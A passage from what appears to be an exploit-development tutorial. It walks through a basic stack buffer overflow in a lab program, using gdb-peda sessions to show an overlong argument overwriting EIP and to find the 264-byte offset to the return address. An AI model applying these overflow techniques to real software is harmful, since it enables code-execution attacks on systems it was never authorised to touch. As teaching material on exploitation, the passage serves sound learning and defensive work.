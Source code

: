 Segmentation fault tell us the program try to access memory address that the program has no authorization. You may notice that the EIP register has been manipulated by our input "A" which represent 0x41 in hex. If you input more 3 "A" it could overide all EIP.

```
gdb-peda$ r $(python -c 'print("A"*268)')
Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0x41414141 ('AAAA')
ECX: 0x80003115 --> 0x0 
EDX: 0xb7fb2870 --> 0x0 
ESI: 0xb7fb1000 --> 0x1aedb0 
EDI: 0xb7fb1000 --> 0x1aedb0 
EBP: 0x41414141 ('AAAA')
ESP: 0xbffff5b0 --> 0x2 
EIP: 0x41414141 ('AAAA')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414141
[------------------------------------stack-------------------------------------]
0000| 0xbffff5b0 --> 0x2 
0004| 0xbffff5b4 --> 0xbffff644 --> 0xbffff76b ("/kapi/exploitdev/stack_overflow_basic")
0008| 0xbffff5b8 --> 0xbffff650 --> 0xbffff89e ("XDG_SESSION_ID=9")
0012| 0xbffff5bc --> 0x0 
0016| 0xbffff5c0 --> 0x0 
0020| 0xbffff5c4 --> 0x0 
0024| 0xbffff5c8 --> 0xb7fb1000 --> 0x1aedb0 
0028| 0xbffff5cc --> 0xb7fffc04 --> 0x0 
```

As we expected, the EIP has been overrided by 4 bytes of "A" that I've extended from 264 bytes of "A". If we change the last 4 bytes to "B" then let's check how the stack look like.
```
gdb-peda$ break *main+62
Breakpoint 1 at 0x63e: file stack_overflow_basic.c, line 5.
gdb-peda$ r $(python -c 'print("A"*264 + "B"*4)')
Starting program: /kapi/exploitdev/stack_overflow_basic $(python -c 'print("A"*264 + "B"*4)')
[----------------------------------registers-----------------------------------]
EAX: 0xbffff4a4 ('A' <repeats 200 times>...)
EBX: 0x80002000 --> 0x1ef8 
ECX: 0xbffff500 ('A' <repeats 172 times>, "BBBB\002")
EDX: 0xbffff4a4 ('A' <repeats 200 times>...)
ESI: 0xb7fb1000 --> 0x1aedb0 
EDI: 0xb7fb1000 --> 0x1aedb0 
EBP: 0xbffff5a8 ("AAAABBBB\002")
ESP: 0xbffff498 --> 0xbffff4a4 ('A' <repeats 200 times>...)
EIP: 0x8000063e (<main+62>:     add    esp,0xc)
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80000632 <main+50>:        lea    eax,[ebp-0x104]
   0x80000638 <main+56>:        push   eax
   0x80000639 <main+57>:        call   0x80000450 <memcpy@plt>
=> 0x8000063e <main+62>:        add    esp,0xc
   0x80000641 <main+65>:        lea    eax,[ebp-0x104]
   0x80000647 <main+71>:        push   eax
   0x80000648 <main+72>:        call   0x80000440 <printf@plt>
   0x8000064d <main+77>:        add    esp,0x4
[------------------------------------stack-------------------------------------]
0000| 0xbffff498 --> 0xbffff4a4 ('A' <repeats 200 times>...)
0004| 0xbffff49c --> 0xbffff78f ('A' <repeats 200 times>...)
0008| 0xbffff4a0 --> 0x10c 
0012| 0xbffff4a4 ('A' <repeats 200 times>...)
0016| 0xbffff4a8 ('A' <repeats 200 times>...)
0020| 0xbffff4ac ('A' <repeats 200 times>...)
```